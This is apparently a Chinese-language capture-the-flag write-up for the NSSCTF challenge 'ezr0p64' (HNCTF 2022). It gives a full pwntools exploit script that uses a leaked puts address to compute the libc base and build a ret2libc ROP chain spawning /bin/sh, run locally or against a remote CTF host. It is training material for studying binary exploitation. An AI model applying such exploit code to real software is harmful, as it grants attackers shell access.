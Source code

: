 [[HNCTF 2022 Week1]ezr0p64 | NSSCTF](https://www.nssctf.cn/problem/2931)
![[Pasted image 20240901180459.png]]
也是一道ret2libc的题目，不过他已经给出了puts函数的真实地址以及libc版本，很好做
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
elf = ELF('./ezrop64')
libc = ELF('./libc.so.6')
local = True
if local:
    p = process('./ezrop64')
    # pwnlib.gdb.attach(p, 'b *0x4011DD')
else:
    p = remote('node5.anna.nssctf.cn', 25505)
ret = 0x40101a
rdi = 0x4012a3

p.recvuntil(b'Easyrop.\nGift :')
puts_addr = int(p.recvuntil('\n', drop=True), 16)
log.success('puts real addr: ' + hex(puts_addr))

base = puts_addr - libc.symbols['puts']
system_addr = base + libc.symbols['system']
binsh_addr = base + next(libc.search('/bin/sh'))

log.success('system addr: ' + hex(system_addr))
log.success('binsh addr: ' + hex(binsh_addr))

payload = b'A' * (0x100 + 8) + p64(ret) + p64(rdi) + p64(binsh_addr) + p64(system_addr)
p.recvuntil(b'rop.')
p.sendline(payload)
p.interactive()
```
PS:不是哥们，都直接把`puts`的地址打出来的，本地的wsl还是跑不通，还好我直接试了一下远程，以后和ret2libc有关的题目我是不是都得本地远程一起试试。
